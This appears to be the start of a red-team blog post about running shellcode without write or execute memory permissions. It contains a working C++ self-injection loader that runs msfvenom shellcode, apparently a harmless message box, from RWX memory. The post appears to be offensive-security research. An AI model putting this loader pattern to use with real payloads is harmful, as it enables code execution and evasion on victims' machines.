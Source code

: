 ```yaml
---
layout: post
title: "Process Injection without Write/Execute Permission"
featured-img: Process_Injection\shane-rounce-205187
categories: [C/C++, Shellcode, Redteam, Process injection]
---
```


My friend [@joezid](https://joezid.github.io/) and I have had a boring time, so we found we can execute shellcode in a non-executable and write a shellcode in a non-writable.



# IDEA

We were thinking about the permissions. and Is it possible to write our shellcode in a non-writable allocation and execute it in a non-executable allocation? So we decided to research it and try to create a binary to check the permission. 

# NORMAL BEHAVIOR

We created a shellcode that's popup a message box through msfvenom. After that, we made a binary to do self-injection with a normal behavior (READ, WRITE and EXECUTE) permission.

```cpp
#include <stdio.h>
#include <Windows.h>

int main()
{
    unsigned char shellcode[] =
        "\xd9\xeb\x9b\xd9\x74\x24\xf4\x31\xd2\xb2\x77\x31\xc9\x64\x8b"
        "\x71\x30\x8b\x76\x0c\x8b\x76\x1c\x8b\x46\x08\x8b\x7e\x20\x8b"
        "\x36\x38\x4f\x18\x75\xf3\x59\x01\xd1\xff\xe1\x60\x8b\x6c\x24"
        "\x24\x8b\x45\x3c\x8b\x54\x28\x78\x01\xea\x8b\x4a\x18\x8b\x5a"
        "\x20\x01\xeb\xe3\x34\x49\x8b\x34\x8b\x01\xee\x31\xff\x31\xc0"
        "\xfc\xac\x84\xc0\x74\x07\xc1\xcf\x0d\x01\xc7\xeb\xf4\x3b\x7c"
        "\x24\x28\x75\xe1\x8b\x5a\x24\x01\xeb\x66\x8b\x0c\x4b\x8b\x5a"
        "\x1c\x01\xeb\x8b\x04\x8b\x01\xe8\x89\x44\x24\x1c\x61\xc3\xb2"
        "\x08\x29\xd4\x89\xe5\x89\xc2\x68\x8e\x4e\x0e\xec\x52\xe8\x9f"
        "\xff\xff\xff\x89\x45\x04\xbb\x7e\xd8\xe2\x73\x87\x1c\x24\x52"
        "\xe8\x8e\xff\xff\xff\x89\x45\x08\x68\x6c\x6c\x20\x41\x68\x33"
        "\x32\x2e\x64\x68\x75\x73\x65\x72\x30\xdb\x88\x5c\x24\x0a\x89"
        "\xe6\x56\xff\x55\x04\x89\xc2\x50\xbb\xa8\xa2\x4d\xbc\x87\x1c"
        "\x24\x52\xe8\x5f\xff\xff\xff\x68\x6f\x78\x58\x20\x68\x61\x67"
        "\x65\x42\x68\x4d\x65\x73\x73\x31\xdb\x88\x5c\x24\x0a\x89\xe3"
        "\x68\x70\x77\x6e\x58\x68\x52\x65\x74\x32\x31\xc9\x88\x4c\x24"
        "\x07\x89\xe1\x31\xd2\x52\x53\x51\x52\xff\xd0\x31\xc0\x50\xff"
        "\x55\x08";

    void* exec = VirtualAlloc(0, sizeof shellcode, MEM_COMMIT, PAGE_EXECUTE_READWRITE);
    memcpy(exec, shellcode, sizeof shellcode);
    ((void(*)())exec)();

    return 0;
}

```
